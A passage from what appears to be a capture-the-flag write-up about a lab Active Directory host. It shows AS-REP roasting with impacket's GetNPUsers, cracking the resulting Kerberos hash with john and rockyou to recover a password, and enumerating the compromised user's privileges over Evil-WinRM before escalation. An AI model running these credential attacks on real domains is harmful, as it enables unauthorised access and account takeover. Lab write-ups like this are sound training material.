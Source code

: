 Then, we can use `impacket-GetNPUsers` to get the hash required.&#x20;

{% code overflow="wrap" %}
```
$ GetNPUsers.py -no-pass -dc-ip megacorp.local MEGACORP/jorden
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for jorden
$krb5asrep$23$jorden@MEGACORP:0bb6522c4c81e9ee90f0cc0bd92e9068$4e27c205e518f96ef14e152bae72576279532f7550e1e86147721862cbffbdd7bf6a0176da066b734fb4a5e8df1ba5384d01f3bc57e732cd4e5d7331e5ff4fc1e298a47dd682b6c2cb837d87bf2eeb3fb43df24f809570ba11bce7c36059a58691893e4a44c82ba07470458b27b055c604c34282b0959b0b199af57a0c7356d052473a36d8f4f3161f3c23f46c99ca37095dded1366b5c6bc73a54f6463591757b79522bee3616ddf845a313bdf1b9524d6c1ab21ac9daf3a8c7e978c9bf9ddae536f224adc1126856897d72c4d812dc6ef745b0f3fb7d95905091d00df296ea87c5d781e8c164bbd430
```
{% endcode %}

This hash can be easily cracked by `john`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt asrep_hash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
rainforest786    ($krb5asrep$23$jorden@MEGACORP)     
1g 0:00:00:02 DONE (2023-06-26 14:33) 0.3484g/s 1533Kp/s 1533Kc/s 1533KC/s rainian..raincole
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

<figure><img src="../../../.gitbook/assets/image (16) (1) (7).png" alt=""><figcaption></figcaption></figure>

### Server Operators --> Root

`jorden` has loads of privileges available and is part of a lot of groups:

```
*Evil-WinRM* PS C:\Users\jorden\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
```